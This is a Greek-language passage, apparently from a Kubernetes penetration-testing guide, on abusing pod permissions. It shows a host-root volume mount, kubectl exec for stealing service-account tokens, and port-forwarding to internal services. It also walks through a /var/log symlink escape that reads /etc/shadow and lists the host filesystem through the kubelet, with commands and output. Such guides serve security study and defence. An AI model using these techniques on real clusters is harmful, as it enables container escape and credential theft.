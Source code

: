 ```yaml
name: mount-node-root
volumes:
- name: mount-node-root
hostPath:
path: /
```
### **Pods Exec**

**`pods/exec`** είναι ένας πόρος στο kubernetes που χρησιμοποιείται για **την εκτέλεση εντολών σε ένα shell μέσα σε ένα pod**. Αυτό επιτρέπει να **εκτελούνται εντολές μέσα στα containers ή να αποκτάται πρόσβαση σε ένα shell μέσα**.

Επομένως, είναι δυνατόν να **μπείτε μέσα σε ένα pod και να κλέψετε το token του SA**, ή να εισέλθετε σε ένα προνομιούχο pod, να διαφύγετε στον κόμβο και να κλέψετε όλα τα tokens των pods στον κόμβο και να (κατα)χρησιμοποιήσετε τον κόμβο:
```bash
kubectl exec -it <POD_NAME> -n <NAMESPACE> -- sh
```
### port-forward

Αυτή η άδεια επιτρέπει να **προωθείται μία τοπική θύρα σε μία θύρα στο συγκεκριμένο pod**. Αυτό προορίζεται για να διευκολύνει την αποσφαλμάτωση εφαρμογών που εκτελούνται μέσα σε ένα pod, αλλά ένας επιτιθέμενος μπορεί να το εκμεταλλευτεί για να αποκτήσει πρόσβαση σε ενδιαφέρουσες (όπως βάσεις δεδομένων) ή ευάλωτες εφαρμογές (ιστοσελίδες;) μέσα σε ένα pod:
```
kubectl port-forward pod/mypod 5000:5000
```
### Hosts Writable /var/log/ Escape

Όπως [**υποδεικνύεται σε αυτή την έρευνα**](https://jackleadford.github.io/containers/2020/03/06/pvpost.html), αν μπορείτε να αποκτήσετε πρόσβαση ή να δημιουργήσετε ένα pod με το **hosts `/var/log/` directory mounted** σε αυτό, μπορείτε να **ξεφύγετε από το container**.\
Αυτό συμβαίνει βασικά επειδή όταν ο **Kube-API προσπαθεί να αποκτήσει τα logs** ενός container (χρησιμοποιώντας `kubectl logs <pod>`), **ζητά το αρχείο `0.log`** του pod χρησιμοποιώντας το `/logs/` endpoint της υπηρεσίας **Kubelet**.\
Η υπηρεσία Kubelet εκθέτει το `/logs/` endpoint το οποίο βασικά **εκθέτει το filesystem `/var/log` του container**.

Επομένως, ένας επιτιθέμενος με **πρόσβαση για εγγραφή στον φάκελο /var/log/** του container θα μπορούσε να εκμεταλλευτεί αυτή τη συμπεριφορά με 2 τρόπους:

* Τροποποιώντας το αρχείο `0.log` του container του (συνήθως τοποθετημένο στο `/var/logs/pods/namespace_pod_uid/container/0.log`) ώστε να είναι ένα **symlink που δείχνει στο `/etc/shadow`** για παράδειγμα. Στη συνέχεια, θα μπορείτε να εξάγετε το αρχείο shadow των hosts κάνοντας:
```bash
kubectl logs escaper
failed to get parse function: unsupported log format: "root::::::::\n"
kubectl logs escaper --tail=2
failed to get parse function: unsupported log format: "systemd-resolve:*:::::::\n"
# Keep incrementing tail to exfiltrate the whole file
```
* Αν ο επιτιθέμενος ελέγχει οποιοδήποτε κύριο με **δικαιώματα να διαβάσει `nodes/log`**, μπορεί απλά να δημιουργήσει ένα **symlink** στο `/host-mounted/var/log/sym` προς `/` και όταν **πρόσβαση στο `https://<gateway>:10250/logs/sym/` θα καταγράψει το ριζικό** σύστημα αρχείων των hosts (η αλλαγή του symlink μπορεί να παρέχει πρόσβαση σε αρχεία).
```bash
curl -k -H 'Authorization: Bearer eyJhbGciOiJSUzI1NiIsImtpZCI6Im[...]' 'https://172.17.0.1:10250/logs/sym/'
<a href="bin">bin</a>
<a href="data/">data/</a>
<a href="dev/">dev/</a>
<a href="etc/">etc/</a>
<a href="home/">home/</a>
<a href="init">init</a>
<a href="lib">lib</a>
```